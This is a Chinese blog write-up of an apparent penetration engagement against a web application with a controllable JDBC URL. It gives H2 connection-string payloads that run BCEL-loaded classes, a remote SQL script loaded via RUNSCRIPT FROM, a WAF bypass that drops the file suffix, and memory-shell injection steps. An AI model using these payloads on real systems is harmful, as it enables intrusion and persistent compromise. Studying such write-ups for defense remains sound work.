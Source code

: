 ```
标题: 一次 H2 JDBC 的实战利用
创建: 2023-04-25
更新: 2023-04-25
```

[首发微信订阅号](https://mp.weixin.qq.com/s/vdb2zUbE4DxV-ua1xWm5cw)

---

### 0x00 前言

本文记录一次攻防中针对 h2 database 的实战利用。

### 0x01 简介

主要内容：

- 基于 BCEL 构造 H2 的不出网利用
- WAF 绕过
- 判断中间件的坑点

### 0x02 失败的 H2 不出网利用

前段时间的一次攻防项目中发现了一处 jdbc url 可控的漏洞，测试几个数据库后，最终探测到目标存在 h2 的依赖。

基于 BCEL 构造其不出网的利用：

```java
public class Test {
    public static void main(String[] args) throws Exception {
        String clazzBCELCode = "$$BCEL$$...";
        String connectionUrl = String.format("jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists test;create alias test as 'void exec() throws java.io.IOException  { try { new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass(\"%s\").newInstance(); } catch (Exception e){ }}';call test();", clazzBCELCode);
        Connection connection = DriverManager.getConnection(connectionUrl);
        connection.close();
    }
}
```

报错

![](./img/1708848658213.png)

分号没转义的锅，详见：[参考1]，最终构造出的可用 payload 如下

```text
String connectionUrl = String.format("jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists test\\;create alias test as 'void exec() throws java.io.IOException  { try { new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass(\"%s\").newInstance()\\; } catch (Exception e){ }}'\\;call test()\\;", clazzBCELCode);
```

![](./img/1708848680849.png)

根据手上代码判断目标中间件大概率为 tomcat，于是直接生成对应中间件的内存马，构造请求后发过去

然而

![](./img/1708848705121.png)

起初猜测该 waf 的规则不会特别严格，但是经过多次测试发现其拦截的关键字实在太多（Base64、BigInteger、defineClass、newInstance等），如果考虑从代码层面去绕 waf 感觉成本较大，所以暂且搁置了这条路。

想到了一种更方便、简单的绕过姿势:
- 利用：INIT=RUNSCRIPT FROM（远程加载 sql 文件，从而不会出现太多关键字）
- 条件：需要出网

(运气还不错) 通过 http log 验证目标可以出网后， 根据bcel payload 改成 sql 文件进行测试：

```text
drop alias if exists exec;
create alias test as 'void exec() throws java.io.IOException  { try { new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass("$$BCEL$$...").newInstance(); } catch (Exception e){ }}';
call test();
```

没啥问题，再次生成对应的内存马，

![](./img/1708848754596.png)

本地验证是否可以成功注入内存马。

![](./img/1708848765559.png)

### 0x03 绕过 WAF，拿下目标

但是后面在目标上进行远程加载 sql 文件时，再次被 waf 给拦截，

![](./img/1708848785199.png)

经过逐一删除字符发现拦截的关键字是：sql，本地黑盒测试发现 `INIT=RUNSCRIPT FROM` 的利用可以没有后缀（trick +1），

![](./img/1708848802104.png)

最终通过删除 .sql 后缀绕过 waf 并成功拿下目标。

### 0x04 一个小坑
在第一次注入内存马并没有成功,当时猜测原因是目标的中间件不是 tomcat ,因为通过当前线程的堆栈信息判断的结果为 None。

想到了两种可能：
- 工具没覆盖到目标所用中间件
- 触发代码执行的线程非 web 进程

后面经过测试后确认为第2种情况，使用优化后的代码获取到了目标的中间件。

优化前的代码: 当前线程的堆栈

```java
StackTraceElement[] stackTraceElementArray = Thread.currentThread().getStackTrace();
for (StackTraceElement element : stackTraceElementArray) {
    if (element.getClassName().contains("org.apache.catalina.core")) {
        server_type = "tomcat";
        return;
    }
    if (element.getClassName().contains("weblogic.servlet.internal")) {
        server_type = "weblogic";
        return;
    }
    ...
```

优化后的代码：所有线程的堆栈

```java
ArrayList<String> serverTypes = new ArrayList<>();
Map<Thread, StackTraceElement[]> stackTraces = Thread.getAllStackTraces();
for (Map.Entry<Thread, StackTraceElement[]> entry : stackTraces.entrySet()) {
    StackTraceElement[] stackTraceElements = entry.getValue();
    for (StackTraceElement element : stackTraceElements) {
        if (element.getClassName().contains("org.apache.catalina.core")) {
            serverTypes.add("tomcat");
        }
        if (element.getClassName().contains("weblogic.servlet.internal")) {
            serverTypes.add("weblogic");
        }
        ...
```

### 0x05 总结
就不立 flag 了，后续随缘更新。

参考
```text
[1] https://stackoverflow.com/questions/49254492/h2-jdbcsqlexception-url-format-error
[2] Java安全攻防之老版本Fastjson-的一些不出网利用
```

---

[LEAVE A REPLY](https://github.com/pen4uin/blog-feedback/issues/new)

